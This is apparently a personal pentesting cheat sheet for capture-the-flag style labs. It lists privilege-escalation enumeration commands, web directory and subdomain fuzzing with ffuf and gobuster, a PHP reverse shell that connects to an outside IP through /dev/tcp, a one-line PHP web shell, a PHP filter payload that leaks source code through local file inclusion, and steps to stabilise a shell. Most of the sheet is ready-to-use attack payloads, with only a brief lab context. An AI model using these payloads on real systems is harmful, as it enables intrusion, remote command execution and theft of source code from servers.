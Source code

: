 # This section is for documenting common commands that are a pain to try and find again
### debconf: DbDriver "config": /var/cache/debconf/config.dat is locked by another process: Resource temporarily unavailable
    sudo fuser -v /var/cache/debconf/config.dat
    sudo kill 8123

## Privesc
- ### Find SUID binaries
        find / -perm -u=s -type f 2>/dev/null

- ### list sudo-able binaries
        sudo -l

## Web enumeration
 - ### fuzz different parts of web URL
        ffuf -w dns_nameslist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.244.57 -fs 2395
 - ### find directories for a website
        gobuster -w directory_list.txt -u 10.10.244.57

## PHP

- ### php reverse shell
        <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.2.64.239/1234 0>&1'");

- ### php web shell
        <?php system($_GET[cmd]);?>

- ### php leak source code w/ LFI
        pagename=php://filter/convert.base64-encode/resource=login

### Stabilize shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl ^Z
    echo $TERM
    stty -a
    stty raw -echo
    reset
    xterm

# TO BE CONTINUED

